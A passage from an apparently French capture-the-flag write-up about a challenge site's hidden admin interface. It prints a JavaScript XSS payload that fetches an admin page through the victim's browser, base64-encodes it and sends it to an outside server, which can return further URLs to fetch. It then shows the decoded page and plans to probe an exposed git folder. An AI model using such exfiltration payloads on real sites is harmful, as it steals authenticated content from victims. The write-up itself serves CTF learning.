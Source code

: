 ```javascript
function runme(nextUrl){
	remoteServer='http://remote.shoxxdj.fr/'
	BaseURL=''
	doRequestTarget(BaseURL+nextUrl)
	.then((grabbedDatas)=>{
		console.log(grabbedDatas);
		var reader = new FileReader()
		reader.readAsDataURL(grabbedDatas)
		reader.onloadend = function() {
			var base64data = reader.result;
			doRequestServer(remoteServer,base64data,nextUrl)
			.then((responseFromServer)=>{
				console.log("RESPONSE SERVER:"+responseFromServer);
				runme(responseFromServer)
			})
			.catch(()=>{
				console.log("END");
			})
		}
	})
	.catch((err)=>{
		console.log(err);
	});
}

runme('/admin_interface_JntjKPI5Awrqih_cant_guess/admin_secure_page.php')
</script>
```

Cela me permet de récupérer le code de la page :

![Récupération du code de la page](/medias/writeups/miley-a-ctf-challenge-story/image-10-1024x57.png)

Et une fois décodé :

```xml
<html>
    <head>
    <title>Miley admin interface</title>
    </head>
    <body>
     <h1>Message : :::</h1>
     <button id="#random_button">click me</button>
     <p>
test</p>
<p>Powered by : Git, BootStrap, Centos, PHP and Miley</p>
</body>
</html>
```

Très peu d'informations ici. Nous apprenons que les technologies supportées incluent "git". Regardons si le dossier est accessible, pour cela je réutilise le code JS précédent.
